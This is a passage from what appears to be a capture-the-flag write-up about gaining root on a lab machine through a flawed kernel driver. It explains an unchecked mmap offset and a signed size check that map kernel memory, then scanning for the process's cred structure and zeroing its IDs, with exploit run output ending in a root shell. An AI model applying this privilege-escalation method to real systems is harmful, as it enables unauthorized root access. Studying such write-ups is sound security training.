 ## Exploiting the DHID Kernel Module

The value ```vma->vm_pgoff``` is passed directly as the *physical address* to the
function ```remap_pfn_range```. This value is controlled by the user and the only
sanitation check made is that it can't be greater than ```0x1000```. Moreover, the size
of the chunk of memory requested cannot be greater than ```0x10000``` but this comparison
is *signed* and can be easily bypassed using a negative size to request a huge amount of
memory. Putting this all together, we can map a large portion of kernel memory into our
process's address space.

Once we have mapped the kernel memory into our process's address space, we can perform
some basic heuristics to find the ```cred``` structure since we can predict the value
for eight of its members:

```c
/* linux/cred.h */
struct cred {
    /* [...] */
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable;    /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	    /* caps we're permitted */
	kernel_cap_t	cap_effective;	    /* caps we can actually use */
	kernel_cap_t	cap_bset;	        /* capability bounding set */
	kernel_cap_t	cap_ambient;	    /* Ambient capability set */
    /* [...] */
} __randomize_layout;
```

Since we are in control of our process, we can predict the value for all the members
from *uid* to *fsgid*. We just need to write code to search for eight consecutive
integers that match the expected values for those members. Once we find our ```cred```
structure we can change the value of our *UIDs* and *GUIDs* to zero and enable all
capabilities to have full **root** privileges.

```
dzonerzy@smasher2:/dev/shm$ gcc -o exploit exploit.c
dzonerzy@smasher2:/dev/shm$ ./exploit
[+] Device opened (fd: 3)
[+] mmap OK: 0x43434000
[+] Looking for our cred structure...
[+] Potential cred structure found! addr: 0x772e6184
[+] Potential cred structure found! addr: 0x772e6304
[+] Potential cred structure found! addr: 0x772e63c4
[+] Potential cred structure found! addr: 0x772e6544
[+] Potential cred structure found! addr: 0x772e6604
[+] Potential cred structure found! addr: 0x772e6a84
[+] Potential cred structure found! addr: 0x772e7744
[+] Potential cred structure found! addr: 0x772e78c4
[+] Potential cred structure found! addr: 0xb3d63144
[+] WE ARE ROOT!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(dzonerzy)
```

